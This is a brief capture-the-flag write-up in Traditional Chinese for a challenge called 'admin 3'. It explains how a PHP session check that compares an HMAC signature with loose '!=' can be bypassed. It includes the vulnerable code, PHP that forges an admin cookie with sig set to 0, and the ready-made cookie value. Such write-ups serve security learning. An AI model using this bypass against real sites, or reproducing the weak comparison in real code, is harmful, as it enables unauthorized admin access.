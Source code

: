 admin 3
===


從以下的 Code 看出端倪
```PHP
function load_user()
{
    global $secret, $error;

    if(empty($_COOKIE['user'])) {
        return null;
    }

    $unserialized = json_decode(base64_decode($_COOKIE['user']), true);
    $r = hash_hmac('sha512', $unserialized['data'], $secret) != $unserialized['sig'];

    if(hash_hmac('sha512', $unserialized['data'], $secret) != $unserialized['sig']) {
        $error = 'Invalid session';
        return false;
    }

    $data = json_decode($unserialized['data'], true);
    return [
        'name' => $data[0],
        'admin' => $data[1]
    ];
}
```

有弱點的程式碼位於
```php
if(hash_hmac('sha512', $unserialized['data'], $secret) != $unserialized['sig']) {
    $error = 'Invalid session';
    return false;
}
```
由於 `sig` 與 `data` 可控，並且使用 `!=` 弱比較，所以可輕易繞過，Payload 如下

```php
$user = ['admin', true];
$data = json_encode($user);
$sig = 0;
$all = base64_encode(json_encode(['sig' => $sig, 'data' => $data]));
echo $all;
```

並將 `cookie` 的 `user` 改為 `eyJzaWciOjAsImRhdGEiOiJbXCJhZG1pblwiLHRydWVdIn0=` 重新整理就會得到 Flag。